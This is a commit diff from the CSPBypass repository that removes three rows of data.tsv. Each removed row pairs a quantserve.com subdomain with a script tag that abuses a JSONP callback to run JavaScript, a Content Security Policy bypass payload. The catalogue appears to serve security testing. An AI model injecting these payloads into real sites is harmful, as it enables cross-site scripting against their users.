

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Removed quantserve

```diff
--- a/data.tsv
+++ b/data.tsv
-row 153: pixel.quantserve.com | <script src="https://pixel.quantserve.com/api/segments.json?callback=alert"></script>
-row 172: secure.quantserve.com | <script src="https://secure.quantserve.com/api/segments.json?callback=alert"></script>
-row 174: segapi.quantserve.com | <script src="https://segapi.quantserve.com/api/segments.json?callback=alert"></script>
```
